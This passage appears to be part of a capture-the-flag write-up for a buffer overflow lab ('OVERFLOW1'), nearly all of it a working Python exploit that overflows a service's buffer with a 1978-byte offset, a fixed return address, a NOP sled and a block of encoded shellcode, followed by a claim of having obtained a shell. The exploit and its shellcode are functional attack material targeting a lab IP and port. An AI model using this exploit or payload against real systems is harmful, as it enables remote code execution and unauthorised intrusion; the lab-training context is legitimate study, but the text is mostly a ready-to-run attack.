 ```python
import socket

ip = "10.10.73.127"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62" #625011af
padding = "\x90" * 16
payload = ("\xda\xda\xd9\x74\x24\xf4\x5e\x2b\xc9\xba\x76\xe1\x13\x5f\xb1"
"\x52\x83\xc6\x04\x31\x56\x13\x03\x20\xf2\xf1\xaa\x30\x1c\x77"
"\x54\xc8\xdd\x18\xdc\x2d\xec\x18\xba\x26\x5f\xa9\xc8\x6a\x6c"
"\x42\x9c\x9e\xe7\x26\x09\x91\x40\x8c\x6f\x9c\x51\xbd\x4c\xbf"
"\xd1\xbc\x80\x1f\xeb\x0e\xd5\x5e\x2c\x72\x14\x32\xe5\xf8\x8b"
"\xa2\x82\xb5\x17\x49\xd8\x58\x10\xae\xa9\x5b\x31\x61\xa1\x05"
"\x91\x80\x66\x3e\x98\x9a\x6b\x7b\x52\x11\x5f\xf7\x65\xf3\x91"
"\xf8\xca\x3a\x1e\x0b\x12\x7b\x99\xf4\x61\x75\xd9\x89\x71\x42"
"\xa3\x55\xf7\x50\x03\x1d\xaf\xbc\xb5\xf2\x36\x37\xb9\xbf\x3d"
"\x1f\xde\x3e\x91\x14\xda\xcb\x14\xfa\x6a\x8f\x32\xde\x37\x4b"
"\x5a\x47\x92\x3a\x63\x97\x7d\xe2\xc1\xdc\x90\xf7\x7b\xbf\xfc"
"\x34\xb6\x3f\xfd\x52\xc1\x4c\xcf\xfd\x79\xda\x63\x75\xa4\x1d"
"\x83\xac\x10\xb1\x7a\x4f\x61\x98\xb8\x1b\x31\xb2\x69\x24\xda"
"\x42\x95\xf1\x4d\x12\x39\xaa\x2d\xc2\xf9\x1a\xc6\x08\xf6\x45"
"\xf6\x33\xdc\xed\x9d\xce\xb7\x1b\x69\xc9\x44\x74\x6f\xe9\x5b"
"\xd8\xe6\x0f\x31\xf0\xae\x98\xae\x69\xeb\x52\x4e\x75\x21\x1f"
"\x50\xfd\xc6\xe0\x1f\xf6\xa3\xf2\xc8\xf6\xf9\xa8\x5f\x08\xd4"
"\xc4\x3c\x9b\xb3\x14\x4a\x80\x6b\x43\x1b\x76\x62\x01\xb1\x21"
"\xdc\x37\x48\xb7\x27\xf3\x97\x04\xa9\xfa\x5a\x30\x8d\xec\xa2"
"\xb9\x89\x58\x7b\xec\x47\x36\x3d\x46\x26\xe0\x97\x35\xe0\x64"
"\x61\x76\x33\xf2\x6e\x53\xc5\x1a\xde\x0a\x90\x25\xef\xda\x14"
"\x5e\x0d\x7b\xda\xb5\x95\x9b\x39\x1f\xe0\x33\xe4\xca\x49\x5e"
"\x17\x21\x8d\x67\x94\xc3\x6e\x9c\x84\xa6\x6b\xd8\x02\x5b\x06"
"\x71\xe7\x5b\xb5\x72\x22")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Boom we got the shell!!!!


![shell](https://i.imgur.com/mq24xZ3.png)


